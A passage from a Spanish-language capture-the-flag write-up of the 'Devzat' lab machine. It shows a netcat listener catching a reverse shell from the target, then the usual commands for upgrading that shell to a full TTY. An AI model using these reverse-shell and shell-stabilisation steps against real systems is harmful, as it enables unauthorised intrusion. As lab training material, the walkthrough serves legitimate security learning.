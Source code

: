 Nos ponemos en `escucha` en el `puerto 443` desde `netcat`

```
# nc -nlvp 443
```

Nos `enviamos` una `bash` a nuestra máquina

![](/assets/img/Devzat/image_10.png)

Una vez en la máquina víctima vamos a realizar un `tratamiento` a la `TTY`

```
# nc -nlvp 443          
listening on [any] 443 ...
connect to [10.10.16.16] from (UNKNOWN) [10.129.136.15] 42524
bash: cannot set terminal process group (919): Inappropriate ioctl for device
bash: no job control in this shell
patrick@devzat:~/pets$ 
```

Obtenemos las `dimensiones` de nuestra `pantalla` 

```
# stty size
45 183
```

Efectuamos el `tratamiento` a la `TTY`

```
# script /dev/null -c bash
[ENTER]
[CTRL + Z]
# stty raw -echo; fg
[ENTER]
# reset xterm
[ENTER]
# export TERM=xterm
[ENTER]
# export SHELL=bash
[ENTER]
# stty rows 45 columns 183
[ENTER]
```
